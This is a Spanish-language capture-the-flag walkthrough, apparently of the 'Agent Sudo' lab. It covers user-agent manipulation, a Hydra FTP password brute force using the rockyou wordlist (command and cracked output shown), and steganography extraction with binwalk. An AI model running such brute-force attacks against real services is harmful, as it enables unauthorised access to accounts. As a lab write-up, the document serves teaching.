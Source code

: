 ![Agentsudo1][Agentsudo1]

Al cambiar el user-agent a la letra C, se hace una redirección de la petición al recurso *agent_C_attention.php*. En dicha página informan al usuario **chris** que su contraseña es vulnerable.  

![Agentsudo2][Agentsudo2]


### FTP.

Al conocer un usuario (chris) que podría tener una contraseña sencilla, se intenta, mediante la aplicación hydra, acceder al servicio FTP. Hydra informa que la contraseña es "**crystal**", encontrada en el diccionario rockyou.

```shell
hydra -l chris -P s3cureroy/DICCIONARIOS/rockyou.txt 10.10.67.66 ftp                                                                                                                                                                    
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-25 13:29:26
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ftp://10.10.67.66:21/
[21][ftp] host: 10.10.67.66   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-25 13:30:33
```


Se accede entonces mediante el protocolo FTP, y una vez dentro del servidor se listan 3 ficheros (1 fichero de texto y 2 imágenes), que se obtienen mediante el comando ```get``` de FTP.

#### Ficheros obtenidos.

El contenido del fichero de texto es el siguiente:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

El texto hace sospechar que las imágenes pueden contener algún fichero escondido, lo que se conoce como esteganografía. 

Haciendo uso de la herramienta ```binwalw```, se verifica que dentro de la imagen llamada **cutie.png** (La otra solicita una contraseña y se dejará para más adelante) está escondida una nota en formato texto (To_agentR.txt) dentro de un fichero comprimido con extensión zip.


[Agentsudo1]: https://i.imgur.com/S4euCsd.png
[Agentsudo2]: https://i.imgur.com/purbL9m.png
[Agentsudo3]: https://i.imgur.com/XvI3hAz.png